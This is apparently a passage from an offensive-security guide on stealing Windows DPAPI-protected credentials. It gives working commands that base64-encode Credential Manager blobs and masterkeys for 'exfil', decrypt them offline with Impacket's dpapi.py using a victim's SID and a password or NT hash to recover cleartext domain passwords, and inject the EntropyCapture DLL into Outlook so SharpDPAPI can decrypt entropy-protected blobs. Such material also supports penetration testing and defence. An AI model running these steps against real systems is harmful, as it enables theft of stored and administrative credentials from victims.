If you have the victim user’s SID and password (or NT hash), you can decrypt DPAPI masterkeys and Credential Manager blobs entirely offline using Impacket’s dpapi.py.

- Identify artefacts on disk:
  - Credential Manager blob(s): %APPDATA%\Microsoft\Credentials\<hex>
  - Matching masterkey: %APPDATA%\Microsoft\Protect\<SID>\{GUID}

- If file transfer tooling is flaky, base64 the files on-host and copy the output:

```powershell
# Base64-encode files for copy/paste exfil
[Convert]::ToBase64String([IO.File]::ReadAllBytes("$env:APPDATA\Microsoft\Credentials\C8D69E...B9"))
[Convert]::ToBase64String([IO.File]::ReadAllBytes("$env:APPDATA\Microsoft\Protect\<SID>\556a2412-1275-4ccf-b721-e6a0b4f90407"))
```

- Decrypt the masterkey with the user’s SID and password/hash:

```bash
# Plaintext password
python3 dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 \
  -sid S-1-5-21-1111-2222-3333-1107 -password 'UserPassword!'

# Or with NT hash
python3 dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 \
  -sid S-1-5-21-1111-2222-3333-1107 -key 0x<NTLM_HEX>
```

- Use the decrypted masterkey to decrypt the credential blob:

```bash
python3 dpapi.py credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0x<MASTERKEY_HEX>
# Expect output like: Type=CRED_TYPE_DOMAIN_PASSWORD; Target=Domain:target=DOMAIN
# Username=<user> ; Password=<cleartext>
```

This workflow often recovers domain credentials saved by apps using the Windows Credential Manager, including administrative accounts (e.g., `*_adm`).

---

### Handling Optional Entropy ("Third-party entropy")

Some applications pass an additional **entropy** value to `CryptProtectData`. Without this value the blob cannot be decrypted, even if the correct masterkey is known. Obtaining the entropy is therefore essential when targeting credentials protected in this way (e.g. Microsoft Outlook, some VPN clients).

[**EntropyCapture**](https://github.com/SpecterOps/EntropyCapture) (2022) is a user-mode DLL that hooks the DPAPI functions inside the target process and transparently records any optional entropy that is supplied. Running EntropyCapture in **DLL-injection** mode against processes like `outlook.exe` or `vpnclient.exe` will output a file mapping each entropy buffer to the calling process and blob. The captured entropy can later be supplied to **SharpDPAPI** (`/entropy:`) or **Mimikatz** (`/entropy:<file>`) in order to decrypt the data. 

```powershell
# Inject EntropyCapture into the current user's Outlook
InjectDLL.exe -pid (Get-Process outlook).Id -dll EntropyCapture.dll

# Later decrypt a credential blob that required entropy
SharpDPAPI.exe blob /target:secret.cred /entropy:entropy.bin /ntlm:<hash>
```
